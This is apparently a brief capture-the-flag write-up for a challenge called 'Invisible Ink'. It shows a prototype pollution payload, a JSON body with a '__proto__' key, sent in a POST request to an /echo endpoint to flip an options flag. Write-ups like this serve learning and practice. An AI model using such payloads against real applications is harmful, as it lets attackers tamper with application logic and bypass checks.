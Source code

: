 # Invisible Ink Solution

## Proto Poisoning

sent the following in the data of the post request to /echo

```
{
    "__proto__": {
        "flag": true
    }
}
```

This changes the options.flags to true